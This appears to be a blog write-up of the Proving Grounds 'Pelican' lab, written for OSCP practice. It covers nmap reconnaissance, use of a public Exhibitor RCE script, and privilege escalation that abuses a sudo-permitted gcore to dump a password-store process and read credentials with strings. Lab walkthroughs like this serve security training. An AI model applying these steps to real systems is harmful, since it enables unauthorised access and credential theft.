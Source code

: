 ```yaml
---
date: '2024-09-13'
before : '2024-09-10'
after : '2024-09-16'
title: 'OSCP Prep: Proving Grounds : Pelican'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Pelican machine from Proving Grounds'
thumbnail: '../contentImages/pelican/1.png'
---
```


## 1. Recon
Starting with basic nmap scan
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.164.98 -p- -T4            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 17:07 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.59% done
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.63% done; ETC: 17:08 (0:01:00 remaining)
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.27% done; ETC: 17:08 (0:00:43 remaining)
Nmap scan report for 192.168.164.98
Host is up (0.032s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
46295/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.46 seconds

```
Oh my gosh. Let's go through step by step.


nmap scan for port 22 (ssh)
```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
```
Then, port 139, 445 (samba)
```
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)

Host script results:
|_clock-skew: mean: 1h20m02s, deviation: 2h18m34s, median: 1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2024-09-11T17:09:43-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-11T21:09:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
Again, port 631 (ipp)
```
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
```
Suspicious port 2191 (zookeeper)
```
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
```
Strange that ssh is running on 2222, but port 2222 (ssh):
```
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
```
Standard http port 8080, 8081 (http)
```
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.164.98:8080/exhibitor/v1/ui/index.html
```
Finally, port 46295 (java-rmi)
```
46295/tcp open  java-rmi    Java RMI
```

So far, the most "suspicious" ports are indeed the one with zookeeper and http(s).


Let's start enueration...

## 2. Enumeration

As I visited webapp:
![image](../contentImages/pelican/1.png)

Somehow this should be connected to port 2191 (zookeeper). 

Searching with keyword exhibitor:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit exhibitor
Exhibitor Web UI 1.7.1 - Remote Code Execution java/webapps/48654.txt
```

Let's take a closer look. I got a script from:

https://github.com/thehunt1s0n/Exihibitor-RCE.git

Then:

![image](../contentImages/pelican/3.png)


Got a shell.

![image](../contentImages/pelican/4.png)

Or 

```

$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

```
So maybe we should read password-store with gcore.

```
ps aux | grep "password-store"

(found out that PID is 490)

sudo /usr/bin/gcore 490

(created core.490)

strings ./core.490

(The `strings` command in Linux is used to extract and display readable **printable characters** (i.e., strings of text) from binary files or any non-text files)
```

![image](../contentImages/pelican/5.png)

So, let's try to escalate our privilege

![image](../contentImages/pelican/6.png)

Done!


Tipp: try to undestand gtfobins more correctly.

---
## Source

- Proving Grounds
- Me!